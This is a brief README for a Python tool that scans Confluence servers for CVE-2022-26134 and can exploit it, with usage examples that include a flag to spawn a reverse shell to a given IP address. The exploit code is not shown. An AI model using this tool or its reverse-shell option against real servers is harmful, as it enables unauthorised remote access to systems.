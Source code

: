 ## Scan for ConfluenceRCE CVE-2022-26134
Just a quick tool with an oversized banner, to scan if a target is vulnerable to CVE-2022-26134.
* Tested on win/nix, python 2.7 - 3.X
* Dependencies: argparse, requests
* Example usage-1: python confluenceRCE.py -t 127.0.0.1
* Example usage-2: python confluenceRCE.py -t 127.0.0.1:8090 (default port, if not running on 443)
* Example usage-3: python confluenceRCE.py -t 127.0.0.1 -p 8090 -c 15 (-c is timeout value in seconds)
* Example usage-4: python confluenceRCE.py -t 127.0.0.1 -s 192.168.0.1 (reverse shell, ports must be open, port choosen when spawning)
* Thats all.
